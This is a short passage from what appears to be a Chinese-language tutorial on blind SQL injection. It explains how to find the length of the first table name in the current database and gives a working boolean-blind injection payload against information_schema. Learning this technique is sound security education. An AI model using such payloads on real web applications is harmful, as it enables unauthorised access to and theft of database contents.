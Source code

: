 ![](../img/1d42dbcd6d38f003b0a253b58e94a8d7.png)

## 查询表名

我们这里演示如何查询第一个表的表名。

首先查询表名长度。

```
1 and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=?
```

问号处换成从 1 开始的整数。长度为 5：
